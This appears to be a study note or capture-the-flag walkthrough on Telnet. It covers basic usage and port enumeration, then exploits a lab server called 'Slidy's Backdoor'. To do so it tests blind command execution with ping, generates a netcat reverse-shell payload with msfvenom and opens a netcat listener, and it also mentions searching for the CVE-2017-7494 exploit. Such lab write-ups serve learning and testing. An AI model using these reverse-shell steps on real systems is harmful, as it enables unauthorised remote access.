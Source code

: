 Also remember to [[Introduction to (Re)searching#Vulnerability Searching|search for exploits]] , like [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/ "CVE-2017-7494 security vulnerability details") on Exploit DB and other sites.
## Telnet
Telnet allows you to execute commands on a remote machine hosting a telnet server, by using a telnet client. 
Telnet has been replaced by SSH in most implementations, because Telnet sends all messages in plain text and has no specific security mechanisms. 
You can connect to a Telnet server with the command `telnet ip-address port`, for example
```
telnet 192.168.1.101 23
```
After connecting successfully you can then use Telnet commands.
The standart port for Telnet is port 23.
### Enumerating Telnet
We first scan the target machine useing Nmap, but do not find any of the top 1000 ports open. After scanning more ports we discover that port 8012 is open and uses the TCP protocol. 
Now we can connect to Telnet using :
```
telnet 192.168.1.101 8012
```

The title of the telnet server is "Slidy's Backdoor", given us the possibility that we found a username.

### Exploiting Telnet
Now that we are connected to the Telnet server we can start entering commands. Sadly we do not get a return of our input. 
To check if we can execute commands we start a tcpdump listener in another terminal with:
```
sudo tcpdump ip proto \\icmp -i tun0
```
In the terminal connected to the Telnet server we enter:
```
.RUN ping your-id-address -c 1
```

We receive pings, meaning we can execute commands.

We are generating a reverse shell payload with *msfvenom* using:
```
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

| switch  | meaning                           |
| ------- | --------------------------------- |
| `-p`    | payload                           |
| `lhost` | local host IP address (your IP)   |
| `lport` | port to listen to on your machine |
| `R`     | export the payload in raw format  |
Now we start a netcat listener, the syntax is `nc -lvp port`, on our system with:
```
nc -lvp 4444
```
